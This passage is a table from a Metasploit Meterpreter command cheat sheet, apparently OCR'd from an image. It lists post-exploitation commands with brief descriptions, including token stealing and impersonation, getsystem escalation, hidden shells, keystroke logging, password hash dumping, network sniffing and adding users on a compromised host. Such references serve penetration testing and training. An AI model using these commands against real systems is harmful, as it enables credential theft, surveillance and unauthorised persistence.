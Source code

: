 | help                                                    | Open Meterpreter usage help.                                                                  |
| run \<scriptname>                                       | Run Meterpreter-based scripts; for a full list check the scripts/meterpreter directory.       |
| sysinfo                                                 | Show the system information on the compromised target.                                        |
| ls                                                      | List the files and folders on the target.                                                     |
| use priv                                                | Load the privilege extension for extended Meterpreter libraries.                              |
| ps                                                      | Show all running processes and which accounts are associated with each process.               |
| migrate \<proc. id>                                     | Migrate to the specific process ID (PID is the target process ID gained from the ps command). |
| use incognito                                           | Load incognito functions. (Used for token stealing and impersonation on a target machine.)    |
| list\_tokens -u                                         | List available tokens on the target by user.                                                  |
| list\_tokens -g                                         | List available tokens on the target by group.                                                 |
| impersonate\_token \<DOMAIN\_NAMEUSERNAME>              | Impersonate a token available on the target.                                                  |
| steal\_token \<proc. id>                                | Steal the tokens available for a given process and impersonate that token.                    |
| drop\_token                                             | Stop impersonating the current token.                                                         |
| getsystem                                               | Attempt to elevate permissions to SYSTEM-level access through multiple attack vectors.        |
| shell                                                   | Drop into an interactive shell with all available tokens.                                     |
| execute -f \<cmd.exe> -i                                | Execute cmd.exe and interact with it.                                                         |
| execute -f \<cmd.exe> -i -t                             | Execute cmd.exe with all available tokens.                                                    |
| execute -f \<cmd.exe> -i -H -t                          | Execute cmd.exe with all available tokens and make it a hidden process.                       |
| rev2self                                                | Revert back to the original user you used to compromise the target.                           |
| reg \<command>                                          | Interact, create, delete, query, set, and much more in the target’s registry.                 |
| setdesktop \<number>                                    | Switch to a different screen based on who is logged in.                                       |
| screenshot                                              | Take a screenshot of the target’s screen.                                                     |
| upload \<filename>                                      | Upload a file to the target.                                                                  |
| download \<filename>                                    | Download a file from the target.                                                              |
| keyscan\_start                                          | Start sniffing keystrokes on the remote target.                                               |
| keyscan\_dump                                           | Dump the remote keys captured on the target.                                                  |
| keyscan\_stop                                           | Stop sniffing keystrokes on the remote target.                                                |
| getprivs                                                | Get as many privileges as possible on the target.                                             |
| uictl enable \<keyboard/mouse>                          | Take control of the keyboard and/or mouse.                                                    |
| background                                              | Run your current Meterpreter shell in the background.                                         |
| hashdump                                                | Dump all hashes on the target. use sniffer Load the sniffer module.                           |
| sniffer\_interfaces                                     | List the available interfaces on the target.                                                  |
| sniffer\_dump \<interfaceID> pcapname                   | Start sniffing on the remote target.                                                          |
| sniffer\_start \<interfaceID> packet-buffer             | Start sniffing with a specific range for a packet buffer.                                     |
| sniffer\_stats \<interfaceID>                           | Grab statistical information from the interface you are sniffing.                             |
| sniffer\_stop \<interfaceID>                            | Stop the sniffer.                                                                             |
| add\_user \<username> \<password> -h \<ip>              | Add a user on the remote target.                                                              |